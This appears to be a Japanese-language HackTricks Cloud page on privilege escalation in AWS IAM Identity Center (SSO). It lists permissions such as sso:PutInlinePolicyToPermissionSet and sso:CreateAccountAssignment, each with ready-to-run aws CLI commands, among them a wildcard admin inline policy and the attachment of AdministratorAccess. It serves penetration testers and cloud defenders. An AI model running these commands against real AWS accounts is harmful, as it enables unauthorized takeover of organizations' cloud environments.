 # AWS - SSO＆identitystore Privesc

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンをダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを提出して** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **githubリポジトリに参加してください。**

</details>

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSOについての詳細は次を参照してください：

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
デフォルトでは、**管理アカウント**の権限を持つ**ユーザー**のみがIAM Identity Centerにアクセスして**制御**できます。\
他のアカウントのユーザーは、アカウントが**委任管理者**である場合にのみ許可できます。\
[詳細についてはドキュメントを参照してください。](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~パスワードのリセット~~

このような場合に特権をエスカレーションする簡単な方法は、ユーザーのパスワードをリセットする権限を持つことです。残念ながら、ユーザーのパスワードをリセットするためには、ユーザーのメールにアクセスする必要があります。

### `identitystore:CreateGroupMembership`

この権限を持つことで、ユーザーをグループに設定し、グループが持つすべての権限を継承させることができます。

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% hint style="warning" %}
この場合、これらの権限を悪用するためには、影響を受けるすべてのアカウントに含まれる**カスタマーマネージドポリシーの名前を知る必要があります**。
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに対してアカウントにパーミッションセットを与えることができます。

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

ユーザーに割り当てられたロール名に対して、STSの短期クレデンシャルを返します。

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

ただし、どのようにアクセストークンを取得するかはわかりません（TODO）。

### `sso:DetachManagedPolicyFromPermissionSet`

この権限を持つ攻撃者は、指定された許可セットからAWSの管理ポリシーとの関連付けを削除することができます。**管理ポリシー（拒否ポリシー）を削除することで、より多くの特権を付与することが可能です**。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

この権限を持つ攻撃者は、指定されたパーミッションセットからカスタマーマネージドポリシーの関連付けを削除することができます。**マネージドポリシー（拒否ポリシー）のデタッチ**を通じて、より多くの特権を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

この権限を持つ攻撃者は、パーミッションセットからインラインポリシーの権限を削除することができます。インラインポリシー（拒否ポリシー）をデタッチすることで、より多くの特権を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

この権限を持つ攻撃者は、パーミッションセットからパーミッションバウンダリを削除することができます。パーミッションバウンダリから与えられた制限を取り除くことで、**パーミッションセットにより多くの特権を付与することが可能**です。

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし、あなたの**会社をハックトリックで宣伝したい**場合や、**最新版のPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆ハックトリックのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
